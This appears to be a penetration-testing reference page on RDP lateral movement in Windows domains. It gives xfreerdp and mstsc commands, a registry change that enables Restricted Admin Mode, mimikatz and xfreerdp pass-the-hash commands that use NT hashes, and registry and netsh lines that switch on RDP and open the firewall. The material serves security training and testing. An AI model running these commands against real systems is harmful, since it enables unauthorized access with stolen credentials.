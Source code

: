 ```yaml
---
label: RDP
---
```


# Remote Desktop Protocol (RDP) for Lateral Movement

> **Requirements**:
>
> * Credentials (password or >not by default< NT hash) of a member of the local **Administrators** or **Remote Desktop Users** group on the target machine.
> * RDP enabled on the target machine (disabled by default on both Server and client Windows).

**RDP (3389/TCP) is not active by default**. It must be explicitly enabled. By default, if you want to connect via RDP, you need to be a **local administrator** or a member of local **Remote Desktop Users** group on the target machine. Logon via RDP is of the **Remote Interactive type** (reusable credentials are available).

Linux:

```bash
# Using password
xfreerdp /u:$user /p:$password /v:$host /d:$domain
```

Windows:

```powershell
# Open RDP connection dialog (target user's password is required)
mstsc
```

## RDP Pass-the-Hash (Restricted Admin Mode)

Generally, **Pass-the-Hash is not possible using standard remote interactive RDP logon by default**. If you try to pass the hash, you will get an error stating that "Account Restrictions are preventing this user from signing in". Hovewer, pass the hash is possible when the machine has _Restricted Admin Mode_ enabled. This mode changes interactive RDP logon to network logon type so user's credentials are not passed to the target machine and cannot be reused further. **It is disabled by default**.

The good news is, if you have any level of administrative access to the machine, you can enable this feature remotely and the perform the pass-the-hash attack. Remember, it changes the logon type so reusable credentials are not available on the machine!

Windows:

```powershell
# Enable Restricted Admin Mode
reg add "HKLM:\System\CurrentControlSet\Control\Lsa" /f /v DisableRestrictedAdmin /t REG_DWORD /d 0

# Using NT hash
.\mimikatz.exe
> token::elevate
> sekurlsa::pth /user:$username /ntlm:$nt_hash /run:"mstsc.exe /restrictedadmin /v:$_host"
```

Linux:

```bash
# Using NT hash
xfreerdp /u:$user /pth:$nt_hash /v:$host /d:$domain
```

## Enable RDP with CMD

> **NOTE**: Windows Home doesn't have built-in RDP server. It's available on Windows Server, Pro and Enterprise editions.

If you have administrative access to the machine (e.g. via SmbExec or WinRM) you can activate RDP using CMD:

```powershell
# Enable RDP service
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

# Allow RDP on firewall
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```

## References

* [Kali.org, _Passing the Hash with Remote Desktop_](https://www.kali.org/blog/passing-hash-remote-desktop/)
* [Microsoft, _Restricted Admin Mode for RDP in Windows_](https://learn.microsoft.com/en-us/archive/blogs/kfalde/restricted-admin-mode-for-rdp-in-windows-8-1-2012-r2)
